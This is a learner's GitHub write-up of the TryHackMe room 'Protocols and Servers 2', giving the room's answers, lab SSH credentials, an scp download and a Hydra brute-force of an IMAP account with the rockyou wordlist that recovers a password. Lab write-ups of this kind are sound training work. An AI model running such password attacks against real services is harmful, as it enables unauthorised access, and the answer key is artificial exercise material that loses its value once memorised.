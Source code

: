 <h3> Welcome to the <em>TryHackMe ...</em></h3>
<h1>Jr Penetration Tester learning path> Network Security</h1>
<h2>Protocols and Servers 2</h2>
<p>Learn about attacks against passwords and cleartext traffic; explore options for mitigation via SSH and SSL/TLS..</p>
<p>October 24, 2024<br></p>

<div style="display: flex; justify-content: center; align-items: center;">
    <img src="https://github.com/user-attachments/assets/059fcb9a-bc8e-4e4b-a95e-bfe4a4006ba1" width="150px" height="150px"/>
</div>
<br>

![image](https://github.com/user-attachments/assets/4c9fbd68-8291-43fc-b015-6ed759d37403)

<p>Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure. It´s key part of my 26-day-streak in <a href="https://www.wicys.org/benefits/security-training-scholarship/">WiCyS SANS Security Training</a> Stage 2 Program. Let´s get started!!<br><br>
Access this TryHackMe Room clicking <a href="https://tryhackme.com/r/room/protocolsandservers2">Protocols and Servers 2</a></p>

<h2>Task 1 - Introduction</h2>

<p>The <a href="https://tryhackme.com/r/room/protocolsandservers"> Protocols and Servers</a> covered many protocols:<br>

<p>This room introduces the user to a few protocols commonly used, such as:<br>

<ul style="list-style-type:square">
    <li>Telnet</li>
    <li>HTTP</li>
    <li>FTP</li>
    <li>SMPT</li>
    <li>POP3</li>
    <li>IMAP</li>
</ul></p>

<p>Servers implementing these protocols are subject to different kinds of attacks. To name a few, consider:</p>
.....

> 1.1 - <em>We suggest that you start the AttackBox and the virtual machine as you proceed to tackle the following tasks. You can connect to the different services over Telnet for better practice and learning experience.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>


<h2>Task 2 - Sniffing Attack</h2>

<h2>Task 3 - Man-in-the-Middle (MITM) Attack</h2>

<h2>Task 4 - Transport Layer Security (TLS)</h2>

<h2>Task 5 - Secure Shell (SSH)</h2>

> 5.1 - <em>Use SSH to connect to 10.10.88.138 as <code>mark</code> with the password <code>XBtc49AB</code>. Using uname -r, find the Kernel release?</em><br>
>> <strong>5.15.0-119-generic</strong><br>
<p><br></p>

<pre><code>$ ssh mark@10.10.88.138
The authenticity of host '10.10.88.138 (10.10.88.138)' can't be established.
ECDSA key fingerprint is SHA256:/p96HCwgx3tw33jFVI+KrI1D6+g9UitHy9uMT3rJjdI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.88.138' (ECDSA) to the list of known hosts.
mark@10.10.88.138's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri 25 Oct 2024 12:01:20 AM UTC

  System load:  0.16              Processes:             131
  Usage of /:   59.7% of 6.50GB   Users logged in:       0
  Memory usage: 35%               IPv4 address for eth0: 10.10.88.138
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

13 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Mon Sep 20 13:36:07 2021 from 10.20.30.1
mark@ip-10-10-88-138:~$ 
</code></pre>

<p></p>

<pre><code>$ mark@ip-10-10-88-138:~$ uname -r
5.15.0-119-generic
mark@ip-10-10-88-138:~$ 
</code></pre>

<p><br></p>

> 5.2 - <em>Use SSH to download the file <code>book.txt</code> from the remote system. How many KBs did <code>scp</code> display as download size?</em><br>
>> <strong>415</strong><br>
<p><br></p>

<pre><code>$ scp mark@10.10.88.138:/home/mark/book.txt ~
mark@10.10.88.138's password: 
book.txt                                                                  100%  415KB  19.3MB/s   00:00
</code></pre>
<p><br></p>

![image](https://github.com/user-attachments/assets/53df2492-fc1c-4509-ab13-9ea6bdf41843)


<h2>Task 6 - Password Attack</h2>

> 6.1 - <em>We learned that one of the email accounts is <code>lazie</code>. What is the password used to access the IMAP service on 10.10.88.138?</em><br>
>> <strong>butterfly</strong><br>
<p><br></p>

<pre><code>$ hydra -l lazie -P /usr/share/wordlists/rockyou.txt 10.10.88.138 imap
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-10-25 01:40:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking imap://10.10.88.138:143/
[143][imap] host: 10.10.88.138   login: lazie   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-10-25 01:41:00
</code></pre>
<p><br></p>

![image](https://github.com/user-attachments/assets/e2819e22-0a5c-4f7d-9aa9-ca33864e1f0e)


<h2>Task 7 - Summary</h2>

<p>This room covered various protocols, their usage, and how they work under the hood. Three common attacks are:</p>
<p>.........</p>

![image](https://github.com/user-attachments/assets/5706b437-50fb-4625-847c-8ff3cb209c08)

<p>Hydra remains a very efficient tool that you can launch from the terminal to try the different passwords. We summarize its main options in the following table.</p>

![image](https://github.com/user-attachments/assets/1937a220-4dc9-432c-96f2-c9ef87c40c7d)



> 7.1 - <em>By now, you have completed the eighth room of the Network Security module. Please proceed to the final room of this module to test your skills.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>


<h2>Room Complete</h2>

![image](https://github.com/user-attachments/assets/ed02e782-b132-4dd1-87de-d8b7428074b4)




